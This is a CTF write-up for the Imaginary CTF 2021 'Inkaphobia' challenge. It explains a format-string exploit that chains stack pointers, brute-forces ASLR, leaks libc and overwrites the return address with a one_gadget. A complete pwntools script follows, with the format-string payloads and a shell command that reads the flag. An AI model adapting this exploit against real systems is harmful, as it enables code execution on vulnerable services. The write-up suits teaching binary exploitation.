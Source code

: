 Inkaphobia was a challenge from Imaginary CTF 2021

it is basically a format string vulnerability to exploit remotely

the strategy to exploit was to use a stack pointer (reachable with the format string offsets)

that points to another stack pointer.

with this pointer we modify the next stack pointer, to make it point to '_libc_ret_main_' return address

we use this new pointer, to write a one gadget instead of the return address..

I did it in 3 pass...

one pass to bruteforce the ASLR, to have an ASLR favorable to us.. (no bad moon rising)

when we have a good ASLR we use %*c to read 32bit low on stack address, and write it to the target pointers..

then dump a libc address , and write onto ret address using pwntools format string functions..

see in in action...

![](https://github.com/nobodyisnobody/write-ups/raw/main/Imaginary.CTF.2021/pwn/inkaphobia/pics/inkaphobia.gif)

```python
from pwn import *
import sys
context.update(arch="amd64", os="linux")
context.log_level = 'error'

exe = context.binary = ELF('./inkaphobia')
libc = ELF('./libc.so.6')

def one_gadget(filename, base_addr=0):
  return [(int(i)+base_addr) for i in subprocess.check_output(['one_gadget', '--raw', filename]).decode().split(' ')]


for j in range(1000):
  if args.REMOTE:
    p = connect('chal.imaginaryctf.org', 42008)
  else:
    p = process('./inkaphobia')
  p.recvuntil('service!\n', drop=True)
  p.sendlineafter('value: ', '1\n1\n1\n1\n1\n1')		# pass rng
  payload = '%c'*71+'%p.'+'%c'*4+'%*c'+'%c'*12+'%65194c'+'%hn'+'%c'*11+'%6c'+'%hhnTOTO'
  p.sendlineafter('name?\n', payload)
  try:
    p.readuntil('0x', drop=True)
    leak = int(p.readuntil('.', drop=True),16) - 0x270b3
    if ((leak & 0xff000000)>>24) > 16:
      p.close()
      print(str(j))
      continue
    print('leak ='+hex(leak))
    sys.stdout.flush()
    p.recvuntil('TOTO', drop=True)
    print('TOTO OK..')
    p.sendlineafter('value: ', '1\n1\n1\n1\n1\n1')
    payload = '%153c%105$hhnAAAA%75$pBBBB%77$pCCCC'
    p.sendlineafter('name?\n', payload)
    p.readuntil('AAAA', drop=True)
    libc.address = int(p.readuntil('BBBB', drop=True),16) - 0x270b3
    print('libc.base ='+hex(libc.address))
    onegadgets = one_gadget('libc.so.6', libc.address)
    stack = int(p.readuntil('CCCC', drop=True),16)
    p.sendlineafter('value: ', '1\n1\n1\n1\n1\n1')
    p.sendlineafter('name?\n', fmtstr_payload(8, {stack - 0xf0: onegadgets[1]}))
    p.sendline('id;cat flag*')
    p.interactive()
    break
  except:
    print(str(j))
    p.close()

p.close()
```
